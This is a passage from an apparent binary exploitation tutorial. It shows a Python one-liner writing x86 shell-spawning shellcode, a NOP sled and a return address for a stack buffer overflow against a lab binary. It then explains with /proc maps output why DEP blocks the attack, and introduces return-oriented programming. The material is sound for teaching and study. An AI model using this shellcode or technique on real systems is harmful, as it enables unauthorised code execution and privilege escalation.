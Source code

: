 DEP in Action
------------
We input our exploit which writes in our shellcode to be run:

```
python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffd5f8)' > /tmp/var
```

We input the buffer into our binary, but we're not greeted by the shell we expect:

![](https://preview.ibb.co/nyX6m6/bof.png)

As we can see we've hit our NOP sled as the next instructions to be executed are the nop instructions.  However, execution instantly segfaults.  As the DEP flag is set, this section of memory cannot contain executable instructions, therefore we can't jump back to our shellcode.  The methods we've learnt so far won't work, so let's dive into what happens to the stack.

The Stack under DEP
-------------------
We'll set a breakpoint in the code and look directly at the process maps to work out why this happens:
```bash 
root@ubuntu:/home/ubuntu/Desktop/bof3# cat /proc/9435/maps 
08048000-08049000 r-xp 00000000 08:01 1058       /home/ubuntu/Desktop/bof3/bof
08049000-0804a000 r--p 00000000 08:01 1058       /home/ubuntu/Desktop/bof3/bof
0804a000-0804b000 rw-p 00001000 08:01 1058       /home/ubuntu/Desktop/bof3/bof
0804b000-0806c000 rw-p 00000000 00:00 0          [heap]
b7e09000-b7e0a000 rw-p 00000000 00:00 0  
b7e0a000-b7fba000 r-xp 00000000 08:01 934137     /lib/i386-linux-gnu/libc-2.23.so
b7fba000-b7fbc000 r--p 001af000 08:01 934137     /lib/i386-linux-gnu/libc-2.23.so
b7fbc000-b7fbd000 rw-p 001b1000 08:01 934137     /lib/i386-linux-gnu/libc-2.23.so
b7fbd000-b7fc0000 rw-p 00000000 00:00 0  
b7fd6000-b7fd7000 rw-p 00000000 00:00 0  
b7fd7000-b7fd9000 r--p 00000000 00:00 0          [vvar] 
b7fd9000-b7fdb000 r-xp 00000000 00:00 0          [vdso] 
b7fdb000-b7ffe000 r-xp 00000000 08:01 934000     /lib/i386-linux-gnu/ld-2.23.so
b7ffe000-b7fff000 r--p 00022000 08:01 934000     /lib/i386-linux-gnu/ld-2.23.so
b7fff000-b8000000 rw-p 00023000 08:01 934000     /lib/i386-linux-gnu/ld-2.23.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
``` 

You'll see that the `[stack]` has the protections `rw-p` but no execute.  If we recompile with `-z execstack` and do the same you'll see the difference: 

``` 
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack] 
``` 

ROP In Theory
------------------
So jumping to shell-code on the stack is now impossible, but we still have control of the EIP register, and therefore we can control execution.  So rather than jumping to shell-code, why don't we just jump to some other function?
